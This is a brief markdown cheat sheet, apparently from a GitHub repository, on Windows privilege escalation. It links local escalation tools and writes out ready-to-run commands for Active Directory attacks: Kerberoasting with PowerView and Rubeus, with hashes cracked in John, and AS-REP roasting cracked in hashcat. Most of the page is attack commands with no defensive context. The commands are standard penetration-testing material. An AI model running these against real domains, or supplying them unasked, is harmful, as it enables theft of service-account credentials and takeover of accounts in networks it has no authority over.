 # Privilege Escalation

## Local

Escalate privilege on local system to gain Admin rights

- PowerUp : https github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- BeRoot : https:// github.com/AlessandroZ/BeRoot
- Privesc : https:// github.com/enjoiz/Privesc

  ### PowerUp

  ```
  Invoke-AllChecks
  ```
## Domain

### Kerberosting

Execute Kerberosting Attack.

```
. C:\AD\Tools\PowerView.ps1
Get-DomainUser -SPN
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec /outfile:C:\AD\test\hashes.txt
john.exe --wordlist=C:\AD\test\10k-worst-pass.txt C:\AD\test\hashes.txt
```

### ASREP-Roasting

Execute ASREP Roasting.

```
Get-DomainUser -PreauthNotRequired -Verbose
Rubeus.exe asreproast /format:hashcat /user:user01 /outfile:hash.txt
hashcat.exe -a 0 -m 18200 hash.txt 500-worst-passwords.txt 
```
